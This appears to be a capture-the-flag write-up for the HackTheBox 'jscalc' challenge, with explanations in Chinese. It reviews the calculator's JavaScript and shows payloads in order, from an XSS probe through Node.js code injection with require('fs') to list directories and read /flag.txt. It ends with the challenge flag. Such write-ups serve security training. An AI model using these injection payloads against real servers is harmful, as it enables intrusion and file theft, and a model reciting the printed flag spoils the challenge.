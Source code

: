 ```yaml
---
title: 'HackTheBox: jscalc'
disqus: hackmd
---
```


HackTheBox: jscalc
===


## Table of Contents

[TOC]

## Topic

### Lab
#### HackTheBox: 
https://app.hackthebox.com/challenges/jscalc

### Initial Enumeration

●Start Machine: 
http://94.237.57.59:46780/

![image](https://hackmd.io/_uploads/rkVED31W0.png)

(Calculate)\
![image](https://hackmd.io/_uploads/rk8YO6kW0.png)

![image](https://hackmd.io/_uploads/SJgyca1-0.png)


## Solution

### 1.Code Review
● main.js
```javascript=
let formula = document.getElementById('formula');
let form    = document.getElementById('form');
let output  = document.getElementById('output');

const flash = (message, level) => {
    alerts.innerHTML += `
        <div class="alert alert-${level}" role="alert">
            <button type="button" id="closeAlert" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
            <strong>${message}</strong>
        </div>
    `;
};

form.addEventListener('submit', e => {
	e.preventDefault();

	fetch('/api/calculate', {
		method: 'POST',
		body: JSON.stringify({
			formula: formula.value
		}),
		headers: {'Content-Type': 'application/json'}
	}).then(resp => {
		return resp.json();
	}).then(resp => {
        result = resp.message.toString();

		if (result.includes('wrong')) {
            flash(result, 'danger');

            setTimeout(() => {
                document.getElementById('closeAlert').click();
            }, 2000);

            return;
        }
        
        flash(result, 'success');

        setTimeout(() => {
            document.getElementById('closeAlert').click();
        }, 2000);
            
        output.value = result;
        
    })
});

```
> "formula":"100*10-3+340"\
> 用JSON格式 POST 到 fetch /api/calculate\
> Content-Type: application/json

● /routes/index.js
```javascript=
const path       = require('path');
const express    = require('express');
const router     = express.Router();
const Calculator = require('../helpers/calculatorHelper');

const response = data => ({ message: data });

router.get('/', (req, res) => {
	return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/calculate', (req, res) => {
	let { formula } = req.body;

	if (formula) {
		result = Calculator.calculate(formula);
		return res.send(response(result));
	}

	return res.send(response('Missing parameters'));
})

module.exports = router;

```
> GET / 顯示index.html\
> POST /api/calculate，如果存在formula，則使用Calculator.calculate運算

### 2.Attempt
#### 2.1 XSS
:::info
main.js 沒有對輸入的payload進行過濾，嘗試XSS
:::
```payload
55688+'<img src=chw onerror="alert(55688)">'
```

![image](https://hackmd.io/_uploads/rkjssa1Z0.png)

#### 2.2 JSON Object
package.json
```json=
{
	"name": "jscalc",
	"version": "1.0.0",
	"description": "",
	"main": "index.js",
	"nodeVersion": "v8.12.0",
	"scripts": {
		"start": "node index.js"
	},
	"keywords": [],
	"authors": [
		"makelaris",
		"makelarisjr"
	],
	"dependencies": {
		"body-parser": "^1.19.0",
		"express": "^4.17.1"
	}
}



```
:::info
從package.json可以得知使用Node.js
嘗試在JSON格式中注入Node.js指令
:::

```payload
process.cwd()
```
![image](https://hackmd.io/_uploads/SyNXiCJZA.png)
:::warning
● process.cwd() 是 Node.js 中的一個函式，用於獲取當前工作目錄（Current Working Directory）的路徑。所謂當前工作目錄是指 Node.js 進程當前正在運行的目錄。
:::
> 成功得到Server回應

### 3. Node.js in JSON
#### 3.1 require('fs')
```payload
require('fs')
```
![image](https://hackmd.io/_uploads/SyyZLCkbA.png)
:::warning
● require('fs') 是 Node.js 中用於引入文件系統模組的標準語法。文件系統模組（fs）允許 Node.js 應用程式直接與文件系統進行交互，包括讀取檔案、寫入檔案、刪除檔案等操作。
:::
#### 3.2 Browse /app
前面透過process.cwd()當前目錄在/app，利用readdirSync讀取當前目錄下內容
```payload
require('fs').readdirSync('/app').toString()
```
![image](https://hackmd.io/_uploads/SkHP2Cy-R.png)

#### 3.3 Find Flag.txt
```payload
require('fs').readdirSync('../').toString()
```
![image](https://hackmd.io/_uploads/BJlT2R1ZR.png)

### 4. Get FLAG
```payload
require('fs').readFileSync("/flag.txt").toString()
```
:::warning
● require('fs').readFileSync() 是 Node.js 中用於同步讀取檔案的函式。它的作用是以同步的方式從檔案系統中讀取檔案的內容，並將其返回為字串或二進位緩衝區。
:::
![image](https://hackmd.io/_uploads/S1VoR0k-0.png)

> **FLAG: HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}**

###### tags: `Web` `CTF` `Node.js`

